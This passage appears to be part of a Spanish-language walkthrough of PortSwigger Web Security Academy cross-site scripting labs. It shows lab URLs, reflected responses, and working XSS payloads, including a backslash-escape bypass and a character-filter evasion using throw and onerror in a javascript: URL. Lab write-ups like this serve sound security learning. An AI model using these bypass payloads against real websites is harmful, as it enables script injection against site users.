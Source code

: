 URL

```
https://acc31f9a1fc4e81080ad779600f40026.web-security-academy.net/?search=';alert(document.domain)//	
```

Respuesta

```
<script>
    var searchTerms = '\';alert(document.domain)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Entonces, como podemos ver le agrega un **\\** en la comilla simple entonces lo que haremos será agregar de por si un **\\** para que no nos bloquee la comilla simple, con el siguiente payload

```
\';alert(document.domain)//
```

![](img41.png)

## 16. Lab: Reflected XSS in a JavaScript URL with some characters blocked (P)

```
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.
```

URL

```
https://ac901f681ed32e2180a00c4e002a003e.web-security-academy.net/post?postId=2&aaa
```

Respuesta

```html
<div class="is-linkback">
	<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2%26aaa'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```

Entonces lo que haremos será generar un payload que ejecute un alert.

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window '',{x:'
```
